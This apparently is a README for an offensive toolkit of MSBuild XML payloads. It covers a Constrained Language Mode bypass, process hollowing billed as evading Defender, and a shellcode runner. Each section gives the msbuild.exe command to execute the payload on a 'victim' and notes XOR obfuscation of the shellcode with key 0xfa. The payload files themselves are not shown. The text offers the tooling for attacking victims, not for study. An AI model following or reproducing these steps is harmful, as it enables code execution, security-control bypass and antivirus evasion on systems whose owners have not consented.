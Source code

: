### CLM Bypass
- The source file `clm-bypass.xml` can be used to bypass CLM and obtain FullLanguage mode within the same session, transfer to victim and run: 
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe clm-bypass.xml`

### Process Hollowing
- The file `hollow.xml` can be used to perform process hollowing, very stable and bypass defender, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe hollow.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*

### Shellcode Runner
- The file `shellcodeRunner.xml` used to inject and execute shellcode to the current process, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe shellcodeRunner.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*
